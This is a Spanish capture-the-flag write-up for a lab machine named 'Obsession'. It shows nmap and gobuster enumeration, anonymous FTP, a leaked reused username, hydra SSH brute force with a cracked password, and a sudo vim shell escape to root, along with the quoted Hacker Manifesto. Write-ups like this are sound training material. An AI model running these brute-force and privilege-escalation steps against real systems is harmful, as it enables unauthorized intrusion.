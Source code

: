 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓22/07/2025'
---
```


# Obsession

Realizando un escaneo con `nmap` vemos lo siguiente:

```bash
nmap -sC -sV $IPTARGET
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Para empezar, nos interesa el servicio `FTP` y `HTTP`.

Si accedemos al navegador para ver qué página aloja, nos encontramos con una página de un nutricionista. Si nos vamos al final de la página, encontramos este formulario:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023218.png" alt=""><figcaption></figcaption></figure>

Si mandamos una solicitud, nos redirecciona a la siguiente página

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722023326.png" alt=""><figcaption></figcaption></figure></div>

cuya URL es

```http
http://172.17.0.2/.formrellyrespexit.html?nombre=example&apellido=example2&telefono=123456&email=example&somatotipo=Hectomorfo&llamada+a+la+accion=CAMBIAR+MI+VIDA+A+MEJOR+AHORA&campaign=BLACKFRIDAY
```

De momento, esto lo dejaremos así. Vamos a ver qué hay en el `FTP` con usuario `anonymous`:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023857.png" alt=""><figcaption></figcaption></figure>

Vemos, primero, una conversación entre pervertidos, y en otro fichero, una lista de cosas pendientes donde menciona que no tiene bien gestionados los permisos, pero eso nos servirá para después.

Ojeando el código `HTML` de la página web, encuentro con este comentario:

```html
<!-- -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente ---->
```

Realizando un escaneo de directorios de la web, me encuentro con lo siguiente:

```bash
gobuster dir -u http://$IPTARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

En `/backup` tenemos un directory listing que nos muestra un fichero, `backup.txt`:

```
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

En `/important` hay otro directory listing, con el fichero `important.md`:

```markdown
-------------------------------------------------------

MANIFIESTO HACKER
La Conciencia de un Hacker 

Uno más ha sido capturado hoy, está en todos los periódicos.

"Joven arrestado en Escándalo de Crimen por Computadora", "Hacker arrestado luego de traspasar las barreras de seguridad de un banco.." 

Malditos muchachos. Todos son iguales. Pero tú, en tu psicologí­a de tres partes y tu tecnocerebro de 1950, has alguna vez observado detrás de los ojos de un Hacker?

Alguna vez te has preguntado qué lo mueve, qué fuerzas lo han formado, cuáles lo pudieron haber moldeado?

Soy un Hacker, entra a mi mundo..

El mÃ­o es un mundo que comienza en la escuela.. Soy más inteligente que la mayorí­a de los otros muchachos, esa basura que ellos nos enseÃ±an me aburre..

Malditos sub realizados. Son todos iguales.

Estoy en la preparatoria. He escuchado a los profesores explicar por decimoquinta vez como reducir una fracción. Yo lo entiendo.

"No, Srta. Smith, no le voy a mostrar mi trabajo, lo hice en mi mente..
"Maldito muchacho. Probablemente se lo copió. Todos son iguales.

Hoy hice un descubrimiento. Encontré una computadora. Espera un momento, esto es lo máximo.
Esto hace lo que yo le pida. Si comete un error es porque yo me equivoqué.

No porque no le gustó.. o se siente amenazada por mí­.. o piensa que soy un engreído.. o no le gusta enseñar y no deberí­a estar aquí­.. Maldito muchacho. Todo lo que hace es jugar. Todos son iguales.

Y entonces ocurrió.. una puerta abierta al mundo.. corriendo a través de las lineas telefónicas como la heroí­na a través de las venas de un adicto, se envía un pulso electrónico, un refugio para las incompetencias del dí­a a dí­a es buscado.. una tabla de salvación es encontrada.

--------------------------------------------------------
```

Una vez tenemos el usuario `russoski`, intentamos acceder por fuerza bruta al `ssh`:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
```

Si revisamos los permisos con `sudo -l`, nos encontramos con que tenemos permiso para el binario `/usr/bin/vim`. En [gtfobins](https://gtfobins.github.io/gtfobins) vemos que se puede explotar este binario si tenemos permiso con `sudo`:

```bash
sudo vim -c ':!/bin/sh'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722031509.png" alt=""><figcaption></figcaption></figure></div>
